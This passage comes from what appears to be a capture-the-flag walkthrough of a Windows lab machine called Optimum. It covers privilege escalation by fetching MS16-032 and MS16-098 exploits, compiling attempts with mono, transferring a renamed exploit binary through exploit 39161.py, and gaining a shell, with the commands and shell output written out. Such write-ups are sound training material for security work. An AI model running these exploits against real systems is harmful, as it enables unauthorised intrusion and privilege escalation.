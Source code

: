 I copy it to my working environment:

``` bash
searchsploit -m 39809
```

Typically I use dockcross for cross compiling C exploits, but for C# I can use mono provided I know a refernce point for mcs. From the exploit notes I see it uses System.Management.Automation.


```
# It uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.
```

mcs doesn't handle # comments, so I remove those lines and then 

```
mcs -reference:System.Management.Automation.dll 39809.cs
```

but throws the following error:

```
error CS0006: Metadata file `System.Management.Automation.dll' could not be found
```


At this point I can compile in windows, but what if I don't have access to windows?

Well, a x64 version is availabe [here](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/x64/ms16-032.exe)

I look at the exploit and in my cmd shell go to where nc.exe is transfered and go there:

``` cmd
cd C:\Users\Public
```

I try a few different methods to transfer my evil binary ad it fails. I begin to suspect I've got a bad shell and while I'm researching a solution I discover an easier exploit MS16-098, [here](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-098) 

Theres a binary as well [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) I change tact an download it to my working directory.

I then do a find replace on my exploit, changing `nc.exe` to `bfill.exe` and execute it again:

``` bash
python 39161.py $TARGET 80
```

This errors out, but has the desired effect of transferring the file. On optimum I run:


``` cmd
bfill.exe
```

after a few seconds I get a shell:

```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public>
```

